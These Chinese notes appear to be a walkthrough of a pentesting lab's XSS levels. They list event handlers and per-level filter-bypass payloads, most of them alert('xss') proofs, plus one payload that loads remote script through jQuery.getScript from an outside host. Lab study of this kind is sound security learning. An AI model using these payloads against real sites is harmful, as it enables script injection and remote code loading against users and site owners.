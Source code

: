 # Pentester
常用url编码
%20--空格  %27--单引号  %3C--<  %3E-->
测试特殊符号:
<>"JavAScriPT'/:on
第一关:
name=<script>alert('xss')</script>
name=<iframe src=javascript:alert('xss')></iframe>
name=<a href=javascript:alert('xss')>click me</a>
name=<img src=1%20onerror=alert('xss')>  
name=<img src=http://www.sqlsec.com/favicon.icoonclick=alert('xss')> 

常见的事件：
window事件:
onerror  在错误发生时运行的脚本
onload	 页面结束加载之后触发
键盘事件:
onkeydown	在用户按下按键时触发
onkeypress	在用户敲击按钮时触发
onkeyup	    当用户释放按键时触发
鼠标事件:
onclick	元素上发生鼠标点击时触发
onmousedown	当元素上按下鼠标按钮时触发
onmousemove	当鼠标指针移动到元素上时触发。
onmouseover	当鼠标指针移动到元素上时触
onmouseout	当鼠标指针移出元素时触发
onmouseup	当在元素上释放鼠标按钮时触发
new:
onwebkitanimationend 
ontouchmove      移动端手指点击触发

payload:javascript:alert(1)'1'onerror=jQuery.getScript('//ifo.pw/WenBWc')>2222222
第二关:
name=<ScriPT>alert('xss')</ScriPT>

第三关:
name=<ScriP<scRipt>T>alert('xss')<ScriP<scRipt>T>

第四关:
script报错 大小写还是报错
编码绕过失败 采用构造标签绕过
<img src=2 onerror=alert('xss')>

第五关:
<>"JavAScriPT'/:on 
全部回显
alert --> error
<script></script> 没有报error
可能过滤了alert函数
1.构造标签
2.对alert编码  --> 可以执行javascript代码故采用String.fromCharCode
fromCharCode() 可接受一个指定的 Unicode 值，然后返回一个字符串。
name=<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 39, 120, 115, 115, 39, 41))</script>

第六关:
<>"JavAScriPT'/:on 
<script>
	var $a= "<>"JavAScriPT'/:on";
</script>

方法闭合" 
"; alert('xss');"
或者闭合<script>标签
1";</script><img src=0 onerror=alert('xss')><script>

第七关:
<>"JavAScriPT'/:on; 
&lt;&gt;&quot;JavAScriPT'/:on 
进行了实体编码
在 HTML 中，某些字符是预留的。在 HTML 中不能使用小于号（<）和大于号（>），这是因为浏览器会误认为它们是标签。
如果希望正确地显示预留字符，我们必须在 HTML 源代码中使用字符实体。如需显示小于号，我们必须这样写：&lt; 或 &#60;

HTML 中的常用字符实体是不间断空格(&nbsp;)。浏览器总是会截短 HTML 页面中的空格。
如果您在文本中写 10 个空格，在显示该页面之前，浏览器会删除它们中的 9 个。如需在页面中增加空格的数量，您需要使用 &nbsp; 字符实体。
< --> &lt;
/> --> &gt;
" --> &quot
1';alert('xss');'

第八关:
<>"JavAScriPT'/:on; 
&lt;&gt;&quot;JavAScriPT'/:on;
<>"被转换
输出在html环境中

无法使用<>即无法创造<script>环境也没法构造标签利用事件
考虑编码
发现form action中url和访问的url有关
/"><img%20src=0%20onerror=alert('xss')><form%20action=""

第九关：
<>"JavAScriPT'/:on; 
%3C%3E%22JavAScriPT'/:on;
<>" 显示在页面进行了url编码
<img src='https://www.baidu.com/img/PCtm_d9c8750bed0b3c7d089fa7d55720d6cf.png' onclick=alert('xss')>